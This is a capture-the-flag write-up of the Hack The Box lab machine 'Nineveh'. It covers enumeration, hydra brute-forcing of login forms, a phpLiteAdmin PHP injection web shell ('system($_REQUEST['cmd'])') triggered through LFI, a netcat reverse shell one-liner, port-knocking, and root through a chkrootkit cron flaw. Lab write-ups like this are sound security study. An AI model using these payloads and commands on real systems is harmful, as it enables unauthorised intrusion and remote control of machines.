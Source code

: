 ```yaml
---
title:     "Hack The Box - Nineveh"
tags: [linux,medium,knockd,lfi,php,cron]
categories: HackTheBox OSCP-Like
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/1.png)

We are going to pwn Nineveh from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/54>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results

```
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/2.png)

Lets start our Gobuster and see whats in the webpage.


## GoBuster Results

> http://nineveh.htb/

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.43
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/01/23 20:31:19 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/info.php (Status: 200)
/server-status (Status: 403)
/department (Status: 301)
===============================================================
2020/01/23 20:33:44 Finished
===============================================================
```

While looking at the webpages , found a login page in ```/department/login.php```
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/3.png)

So I tried admin:admin I get invalid password so there must be admin user , lets try bruteforce using ``hydra``
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/4.png)

Before that we need to capture the login intercept in burp to see how username and password are represented!

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/5.png)

Now start ``hydra``

``` hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 -V -f http-post-form '/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:invalid password' ```

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/6.png)


```
-f / -F   exit when a login/pass pair is found (-M: -f per host, -F global)
-v / -V / -d  verbose mode / show login+pass for each attempt / debug mode 
```
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/7.png)<br/>
We got the creds ```admin:1q2w3e4r5t```

Lets try login<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/8.png)

While checking the ``Notes`` tab it show us some message, I have no idea what it is so lets enumerate more!! And It looks like LFI on the URL.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/9.png)

So we know there is a ``HTTPS Port (443)`` is open so lets see whats there

### Dirsearch Results

>https://nineveh.htb/

```
 _|. _ _  _  _  _ _|_    v0.3.9
(_||| _) (/_(_|| (_| )

Extensions: html, php, txt | HTTP method: get | Threads: 10 | Wordlist size: 4614

Error Log: /root/hacking-tools/dirsearch/logs/errors-20-01-24_19-49-47.log

Target: https://10.10.10.43/

[19:49:49] Starting: 
[19:49:50] 200 -   49B  - /
[19:49:51] 403 -  291B  - /.hta
[19:50:27] 301 -  309B  - /db  ->  https://10.10.10.43/db/
[19:50:52] 200 -   49B  - /index.html
[19:51:41] 403 -  300B  - /server-status
```
There is a login page on ``/db``
Found ``phpLiteAdmin v1.9`` , as usual lets search for exploits

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/10.png)

There is an Remote PHP Code Injection
>https://www.exploit-db.com/exploits/24044

For that we need to login first , I tried with ``admin`` ( Which is default creds of phpLiteAdmin) But it doesn't worked!!
So Lets bruteforce again using ``hydra``
Same as before Intercept the login using burp.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/11.png)

Since the login page doesn't have any username so we dont need to worry about ``user``
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/12-1.png)<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/12.png)<br/>
So the password is ``password123``

And Im in
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/13.png)

According to the exploit we need to first create a database with the extension of ``.php`` so I created ``ninevehNotes.php``
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/14.png)

From there we need to create a table where we need to inject our payload.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/15.png)
``` <?php echo system($_REQUEST["cmd"]); ?>  ```

Once its created and we already know there is a LFI so I tried to execute there.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/16.png)<br/>
It Worked and Why I named it as ``ninevehNotes.php`` is because we know there is a file called ``ninevehNotes.txt``.

Now Its time to get reverse shell, I send it to burp and used reverse shell code.

``` rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f ```<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/17.png)

And I can't read user flag.

While Checking the ``/var/www/ssl`` directory found something called ``secure_notes``
So Lets have a look on it.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/18.png)
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/19.png)

I downloaded it to my machine 
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/20.png)

I did ``strings`` and found private key<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/21.png)

We already know ``ssh`` port is filtered it may be because of  ``knockd service``

> Once knockd is installed and running, you modify your firewall rules (e.g. iptables) to drop all incoming traffic to port 22. To the outside world, it's exactly as if you are not running SSH at all.


> Reference : https://www.endpoint.com/blog/2009/11/16/port-knocking-with-knockd

There is a way to bypass it.

> Port Knocking works by opening ports on a firewall by generating a connection attempt on a set of prespecified closed ports. Once a correct sequence of connection attempts is received, the firewall will open the port that was previously closed.

So we need the sequence to open the port.

>https://blog.rapid7.com/2017/10/04/how-to-secure-ssh-server-using-port-knocking-on-ubuntu-linux/

From the blog I came to know we can see the sequence in ``/etc/knockd.conf``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/22.png)

Yes I got the sequence , Now its time to open.

> https://www.digitalocean.com/community/tutorials/how-to-use-port-knocking-to-hide-your-ssh-daemon-from-attackers-on-ubuntu

``` for x in 571 290 911; do nmap -Pn --max-retries 0 -p $x 10.10.10.43; done ```

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/23.png)

Now we can use the private key to login<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/24.png)

## Privilege Escalation

I uploaded my Linux Enumeration Script and nothing useful , So I tried ``pspy``

>pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.

Looks like ``chrkootkit`` running 
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/25.png)

> chkrootkit is a common Unix-based program intended to help system administrators check their system for known rootkits.

I searched in Searchsploit and found
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/26.png)
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/27.png)

I looks like easy , I created a file called Update in ``/tmp`` and started my listener.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-nineveh/28.png)

Got Root!!



